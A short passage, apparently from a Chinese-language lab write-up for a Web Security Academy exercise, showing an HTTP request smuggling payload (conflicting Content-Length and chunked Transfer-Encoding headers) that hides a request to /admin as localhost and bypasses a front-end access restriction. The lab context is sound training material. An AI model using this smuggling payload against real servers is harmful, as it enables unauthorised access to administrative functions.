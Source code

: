 [![](assets/1698897445-913b303fc3a1629d3e8556035f41659e.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123154609.png)

可以看到第二个请求我们得到了`/admin`的响应

```plain
<div class="container is-page">
  Admin interface only available if logged in as an administrator, or if requested as localhost
</div>
```

于是我们添加 HOST 头再次发送几次

```plain
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 45
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
```

我们可以看到成功访问到了`/admin`面板内容，如果不成功可以多发送几次试试看
